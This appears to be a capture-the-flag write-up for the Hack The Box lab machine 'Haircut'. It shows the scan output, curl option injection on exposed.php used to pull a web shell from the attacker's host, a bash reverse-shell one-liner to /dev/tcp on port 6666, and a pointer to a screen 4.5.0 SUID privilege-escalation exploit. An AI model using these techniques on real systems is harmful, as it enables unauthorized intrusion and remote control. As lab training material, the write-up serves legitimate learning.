


# Haircut
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.24 --min-rate 10000           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 21:40 BST
Nmap scan report for 10.10.10.24 (10.10.10.24)
Host is up (0.11s latency).
Not shown: 65507 filtered tcp ports (no-response), 26 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds

```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.24 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 21:41 BST
Nmap scan report for 10.10.10.24 (10.10.10.24)
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
|_http-server-header: nginx/1.10.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.13 seconds
```

- Web server


- `feroxbuster`
```
└─$ feroxbuster -u http://10.10.10.24 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.24
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      286l     1220w   226984c http://10.10.10.24/bounce.jpg
200      GET        7l       15w      144c http://10.10.10.24/
301      GET        7l       13w      194c http://10.10.10.24/uploads => http://10.10.10.24/uploads/
200      GET       19l       41w      446c http://10.10.10.24/exposed.php

```

## Foothold/User
- `http://10.10.10.24/exposed.php`


- Looks like a `curl`
  - We can curl our web server


- If we try injecting command like `http://localhost/test.html; ping -c 1 10.10.16.9`, we receive an error
  - Probably some filter


- Assuming it's a `curl`, we can try passing `curl` options
  - And it works


- Let's upload a web shell
  - `http://10.10.16.9/shell.php -o uploads/shell.php`


- Let's get reverse shell
  - Send url-encoded: `bash -c "/bin/bash -i >& /dev/tcp/10.10.16.9/6666 0>&1"` 



- We could also pass `$([command])` or `` `[command]` ``




## Root
- `linpeas` shows `screen 4.5`
  - 
```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                                            
-rwsr-xr-x 1 root root 139K Jan 28  2017 /bin/ntfs-3g  --->  Debian9/8/7/Ubuntu/Gentoo/others/Ubuntu_Server_16.10_and_others(02-2017)                                                                                                       
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 31K Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40K May  4  2017 /bin/su
-rwsr-xr-x 1 root root 40K Dec 16  2016 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 27K Dec 16  2016 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 134K Jan 20  2017 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 23K Jan 18  2016 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 33K May  4  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 39K May  4  2017 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 33K May  4  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 74K May  4  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 daemon daemon 51K Jan 14  2016 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 53K May  4  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 1.6M May 19  2017 /usr/bin/screen-4.5.0 (Unknown SUID binary!)
-rwsr-xr-x 1 root root 40K May  4  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 49K May  4  2017 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 39K Mar  7  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42K Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 204K Apr 29  2017 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 10K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 419K Mar 16  2017 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 15K Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1

```

- [exploit-db](https://www.exploit-db.com/exploits/41154)
  - Perform the steps to get a root